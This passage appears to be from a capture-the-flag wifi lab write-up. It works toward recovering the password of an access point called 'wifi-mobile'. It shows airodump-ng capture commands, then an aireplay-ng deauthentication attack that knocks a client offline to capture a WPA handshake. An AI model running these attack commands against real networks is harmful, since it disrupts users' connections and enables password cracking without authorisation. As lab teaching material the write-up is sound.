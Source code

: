 **Flag :** `11:BB:33:CD:55`

## **08. What is the wifi-mobile AP password?**

**Challenge Description :**  What is the wifi-mobile AP password?

### Approach

Identify `wifi-mobile` AP:

```shell
sudo airodump-ng wlan0mon
```

![](Images/Recon08_01.png)

Precise capture filters:

```shell
sudo airodump-ng wlan0mon -w scanchall08 -c 6 --bssid F0:9F:C2:71:22:12
```

I need to capture `WPA handshake`, to obtain it, I can `deauth` client:

```shell
sudo aireplay-ng wlan0mon --deauth 0 -a F0:9F:C2:71:22:12 -c 28:6C:07:6F:F9:44
```

![](Images/Recon08_02.png)
